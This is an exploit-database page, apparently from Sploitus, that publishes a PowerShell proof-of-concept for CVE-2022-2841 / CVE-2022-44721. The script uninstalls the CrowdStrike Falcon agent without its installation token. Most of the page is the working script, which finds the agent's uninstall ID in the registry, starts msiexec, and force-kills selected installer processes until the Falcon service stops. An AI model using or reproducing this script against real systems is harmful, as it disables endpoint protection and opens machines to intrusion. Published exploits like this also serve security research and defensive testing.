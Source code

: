 ```yaml
---
title: CrowdStrike Falcon AGENT 6.44.15806 - Uninstall without Installation Token Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38390&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-31
fetch_date: 2025-10-04T11:11:17.682496
---
```


# CrowdStrike Falcon AGENT 6.44.15806 - Uninstall without Installation Token Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for CrowdStrike Falcon AGENT 6.44.15806 - Uninstall without Installation Token Vulnerability CVE-2022-2841 CVE-2022-44721

2023-03-30 | CVSS 2.7

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38390
# Exploit Title: CrowdStrike Falcon AGENT  6.44.15806  - Uninstall without Installation Token
# Exploit Author: Walter Oberacher, Raffaele Nacca, Davide Bianchin, Fortunato Lodari, Luca Bernardi (Deda Cloud Cybersecurity Team)
# Vendor Homepage: https://www.crowdstrike.com/
# Author Homepage: https://www.deda.cloud/
# Tested On: All Windows versions
# Version: 6.44.15806
# CVE: Based on CVE-2022-2841; Modified by Deda Cloud Purple Team members, to exploit hotfixed release. Pubblication of of CVE-2022-44721 in progress.

$InstalledSoftware = Get-ChildItem "HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall"

foreach($obj in $InstalledSoftware){
    if ("CrowdStrike Sensor Platform" -eq $obj.GetValue('DisplayName'))
    {
        $uninstall_uuid = $obj.Name.Split("\")[6]
    }
}

$g_msiexec_instances = New-Object System.Collections.ArrayList

Write-Host "[+] Identified installed Falcon: $uninstall_uuid"
Write-Host "[+] Running uninstaller for Crowdstrike Falcon . . ."
Start-Process "msiexec" -ArgumentList "/X$uninstall_uuid"

while($true)
{
	if (get-process -Name "CSFalconService") {
		Get-Process | Where-Object { $_.Name -eq "msiexec" } | ForEach-Object {

			if (-Not $g_msiexec_instances.contains($_.id)){
				$g_msiexec_instances.Add($_.id)
				if (4 -eq $g_msiexec_instances.count -or 5 -eq $g_msiexec_instances.count){
					Start-Sleep -Milliseconds 100
					Write-Host "[+] Killing PID " + $g_msiexec_instances[-1]
					stop-process -Force -Id $g_msiexec_instances[-1]
				}

			}

		}
	} else {
		Write-Host "[+] CSFalconService process vanished...reboot and have fun!"
		break
	}
}
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)